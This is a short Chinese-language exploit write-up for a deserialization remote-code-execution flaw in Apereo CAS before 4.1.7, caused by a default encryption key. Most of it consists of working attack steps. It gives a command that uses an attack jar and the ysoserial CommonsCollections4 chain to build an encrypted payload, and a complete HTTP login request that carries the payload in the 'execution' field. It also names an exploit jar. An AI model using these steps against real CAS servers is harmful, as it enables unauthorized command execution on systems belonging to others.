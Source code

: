 ## 漏洞概述

[默认密钥]-4.1.x 反序列化RCE

其4.1.7版本之前存在一处默认密钥（changeit）的问题，利用这个默认密钥我们可以构造恶意信息触发目标反序列化漏洞，进而执行任意命令

## 影响范围

```http
Apereo-CAS < 4.1.7
```

## POC

1、使用[Apereo-CAS-Attack](https://github.com/vulhub/Apereo-CAS-Attack)利用ysoserial的CommonsCollections4生成加密后的Payload

```bash
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/success"
```

2、然后登录CAS并抓包，将Body中的`execution`值替换成上面生成的Payload

```http
POST /cas/login HTTP/1.1
Host: your-ip
Content-Length: 2287
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.89 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://your-ip:8080/cas/login
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: JSESSIONID=24FB4BAAE1A66E8B76D521EE366B3E12; _ga=GA1.1.1139210877.1586367734
Connection: close

username=test&password=test&lt=LT-2-gs2epe7hUYofoq0gI21Cf6WZqMiJyj-cas01.example.org&execution=[payload]&_eventId=submit&submit=LOGIN
```

## EXP

```bash
cas_exploit-1.0-SNAPSHOT-all.jar
```

## 参考链接

暂无